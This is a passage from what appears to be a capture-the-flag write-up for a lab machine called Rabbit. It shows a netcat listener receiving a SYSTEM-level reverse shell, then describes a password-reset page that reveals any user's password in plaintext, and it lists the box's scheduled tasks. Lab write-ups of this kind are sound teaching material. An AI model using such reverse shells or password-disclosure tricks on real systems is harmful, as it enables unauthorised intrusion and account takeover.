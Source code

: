 

    oxdf@hacky$ rlwrap -cAr nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.10.71 22005
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\wamp64\www>whoami
    nt authority\system



And I can read `root.txt`:



    C:\Users\Administrator\Desktop>type root.txt
    0b2ded66************************



## Beyond Root

### Complain User Password Reset

It's not important to solving Rabbit, but Complain Management System's
password reset is very broken.

Without logging in, visiting `forget-password.php` asks for your
username and email:

![](/img/image-20220425164922703.png)

If I get that right, it returns the password in clear text:

![](/img/image-20220425164955007.png)

This allows anyone to get any user's password. It also means that
passwords are being stored in plaintext (rather than hashed).

### Automation Analysis

I wanted to look at how the automations were working, largely out of
frustrating with their inconsistency.

#### Triage Scheduled Tasks

There's a bunch of scheduled tasks on this box. `schtasks` will print
them all with some description and their current state. Looking through
these, most are in the Microsoft folder, and look like standard Windows
stuff. But there are seven tasks at the root that look custom for
Rabbit:



    C:\>schtasks

    Folder: \
    TaskName                                 Next Run Time          Status
    ======================================== ====================== ===============
    CleanUp                                  4/28/2022 11:20:00 AM  Ready
    Delete Files                             4/28/2022 11:18:00 AM  Ready
    Delete Sent Items Ariel                  4/28/2022 11:12:00 AM  Ready
    Delete Sent Items Kain                   4/28/2022 11:12:00 AM  Ready
    Delete Sent Items Magnus                 4/28/2022 11:12:00 AM  Ready          
    Download Email Attachments               4/28/2022 11:12:00 AM  Ready
    Execute Malicious Documents              4/28/2022 11:12:00 AM  Ready
    ...[snip]...
